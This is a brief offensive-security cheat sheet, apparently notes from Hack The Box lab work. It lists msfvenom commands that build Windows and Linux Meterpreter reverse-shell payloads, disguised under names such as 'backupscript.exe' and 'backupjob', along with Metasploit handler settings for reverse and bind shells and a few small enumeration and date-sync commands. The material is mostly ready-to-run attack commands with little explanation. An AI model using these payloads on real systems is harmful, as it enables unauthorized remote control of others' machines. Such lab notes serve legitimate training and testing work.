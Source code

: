 #### Find readable files
```bash
find . -perm 664
```

####  Sync date with dc
```bash
ntpdate -s <Dc>
```

#### Change date 
```shell
date -s 12:12:12
```

### Meterpreter

#### windows x64 rev shell
```shell
Sauuron@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080 #Creating a Windows Payload with msfvenom
```

```shell
msf6 > use exploit/multi/handler # Handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https # HTTPS Paylaod

```

#### ubuntu x64 rev shel
```shell
Sauuron@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

```shell
set payload linux/x64/meterpreter/reverse_tcp # TCP Payload
```
#### Bind shell

```shell
msf6 > use exploit/multi/handler # Handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp # Payload

msf6 exploit(multi/handler) > set RHOST 10.129.202.64 # RHOST

msf6 exploit(multi/handler) > set LPORT 8080 # LHOST

```





